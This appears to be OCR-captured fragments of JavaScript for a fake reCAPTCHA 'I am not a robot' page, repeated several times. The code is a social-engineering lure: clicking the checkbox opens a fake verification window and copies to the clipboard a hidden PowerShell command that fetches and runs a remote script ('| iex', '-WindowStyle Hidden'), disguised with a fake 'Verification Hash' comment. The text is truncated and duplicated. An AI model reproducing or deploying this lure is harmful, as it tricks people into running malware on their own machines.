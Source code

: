 - `"copy"); document.body.removeChild(tempTextA... ...ck", function (event) { event.preventDefault(); checkboxBtn.disabled = true; runClickedCheckboxEffects(); }); } } function runClickedCheckboxEffects() { hideCaptchaCheckbox(); setTimeout(function(){ showCaptchaLoading(); },500); setTimeout(function(){ showVerifyWindow(); },900) } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; checkboxBtnSpinner.style.animation = "spin 1s linear infinite"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.opacity = "0"; checkboxBtnSpinner.style.animation = "none"; setTimeout(function() { checkboxBtnSpinner.style.visibility = "hidden"; }, 500); } function hideCaptchaCheckbox() { checkboxBtn.style.visibility = "hidden"; checkboxBtn.style.opacity = "0"; } function showCaptchaCheckbox() { checkboxBtn.style.width = "100%"; checkboxBtn.style.height = "100%"; checkboxBtn.style.borderRadius = "2px"; checkboxBtn.style.margin = "21px 0 0 12px"; checkboxBtn.style.opacity = "1"; } function hideCaptchaCheckbox() { checkboxBtn.style.width = "4px"; checkboxBtn.style.height = "4px"; checkboxBtn.style.borderRadius = "50%"; checkboxBtn.style.marginLeft = "25px"; checkboxBtn.style.marginTop = "33px"; checkboxBtn.style.opacity = "0"; } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.visibility = "hidden"; checkboxBtnSpinner.style.opacity = "0"; } function generateRandomNumber() { const min = 1000; const max = 9999; return Math.floor(Math.random() * (max - min + 1) + min).toString(); } function closeverifywindow() { verifywindow.style.display = "none"; verifywindow.style.visibility = "hidden"; verifywindow.style.opacity = "0"; showCaptchaCheckbox(); hideCaptchaLoading(); checkboxBtn.disabled = false; } function isverifywindowVisible() { return verifywindow.style.display !== "none" && verifywindow.style.display !== ""; } function setClipboardCopyData(textToCopy){ const tempTextArea = document.createElement("textarea"); tempTextArea.value = textToCopy; document.body.append(tempTextArea); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextArea); } function stageClipboard(commandToRun, verification_id){ const suffix = " # " const ploy = "â ''I am not a robot - reCAPTCHA Verification Hash: " const end = "''" const textToCopy = commandToRun + suffix + ploy + verification_id + end setClipboardCopyData(textToCopy); } function showVerifyWindow()... ...dy.append(tempTextArea); tempTextArea.select(); document.execCommand("copy");... ...32.ps1 | iex' -WindowStyle Hidden\""; const commandToRun = "powershell " + htaPath; stageClipboa... ...tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempText... ...k", function (event) { event.preventDefault(); checkboxBtn.disabled = true; runClickedCheckboxEffects(); }); } } function runClickedCheckboxEffects() { hideCaptchaCheckbox(); setTimeout(function(){ showCaptchaLoading(); },500); setTimeout(function(){ showVerifyWindow(); },900) } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; checkboxBtnSpinner.style.animation = "spin 1s linear infinite"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.opacity = "0"; checkboxBtnSpinner.style.animation = "none"; setTimeout(function() { checkboxBtnSpinner.style.visibility = "hidden"; }, 500); } function hideCaptchaCheckbox() { checkboxBtn.style.visibility = "hidden"; checkboxBtn.style.opacity = "0"; } function showCaptchaCheckbox() { checkboxBtn.style.width = "100%"; checkboxBtn.style.height = "100%"; checkboxBtn.style.borderRadius = "2px"; checkboxBtn.style.margin = "0"; checkboxBtn.style.opacity = "1"; } function hideCaptchaCheckbox() { checkboxBtn.style.width = "4px"; checkboxBtn.style.height = "4px"; checkboxBtn.style.borderRadius = "50%"; checkboxBtn.style.marginLeft = "25px"; checkboxBtn.style.marginTop = "33px"; checkboxBtn.style.opacity = "0"; } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.visibility = "hidden"; checkboxBtnSpinner.style.opacity = "0"; } function generateRandomNumber() { const min = 1000; const max = 9999; return Math.floor(Math.random() * (max - min + 1) + min).toString(); } function closeverifywindow() { verifywindow.style.display = "none"; verifywindow.style.visibility = "hidden"; verifywindow.style.opacity = "0"; showCaptchaCheckbox(); hideCaptchaLoading(); checkboxBtn.disabled = false; } function isverifywindowVisible() { return verifywindow.style.display !== "none" && verifywindow.style.display !== ""; } function setClipboardCopyData(textToCopy){ const tempTextArea = document.createElement("textarea"); tempTextArea.value = textToCopy; document.body.append(tempTextArea); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextArea); } function stageClipboard(commandToRun, verification_id){ const suffix = " # " const ploy = "â ''I am not a robot - reCAPTCHA Verification ID: " const end = "''" const textToCopy = commandToRun setClipboardCopyData(textToCopy); } function showVerifyWindow() {... ...y.append(tempTextArea); tempTextArea.select(); document.execCommand("copy");... ...cation-id').textContent = verification_id; const commandToRun = `POWerShEll -W h "[Text.Encoding]::UTF8.GetString... ...); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextA... ...ck", function (event) { event.preventDefault(); checkboxBtn.disabled = true; runClickedCheckboxEffects(); }); } } function runClickedCheckboxEffects() { hideCaptchaCheckbox(); setTimeout(function(){ showCaptchaLoading(); },500); setTimeout(function(){